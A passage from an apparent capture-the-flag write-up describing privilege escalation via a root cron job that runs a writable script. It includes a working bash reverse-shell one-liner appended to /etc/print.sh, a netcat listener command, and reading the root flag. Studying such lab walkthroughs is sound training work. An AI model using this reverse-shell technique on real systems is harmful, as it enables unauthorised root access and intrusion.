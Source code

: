 We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
